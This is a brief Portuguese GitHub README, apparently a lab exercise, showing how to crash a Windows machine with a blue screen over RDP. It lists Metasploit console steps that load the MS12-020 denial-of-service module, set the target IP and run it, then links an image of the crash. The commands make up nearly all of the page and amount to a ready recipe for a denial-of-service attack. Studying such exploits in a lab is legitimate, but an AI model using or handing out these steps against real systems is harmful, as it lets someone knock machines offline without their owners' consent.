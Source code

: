 # Ataque-DoS-no-Windows-com-RDP
## Gerando tela azul no Windows utilizando exploit no Kali

<p>●	No Windows habilitar Desktop remoto</p>
<p>●	Kali</p>
<p>●	msfconsole</p>
<p>●	search rdp</p>
<p>●	Use auxiliary/dos/Windows/rdp/ms12_020_maxchannelids</p>
<p>●	Set rhosts  ip do destino</p>
<p>●	Run/exploit</p>

<p>Gerando tela azul no Windows</p>

![tela azul](https://github.com/user-attachments/assets/63610a58-c6f3-4ecb-97e5-1bf6735cccfa)
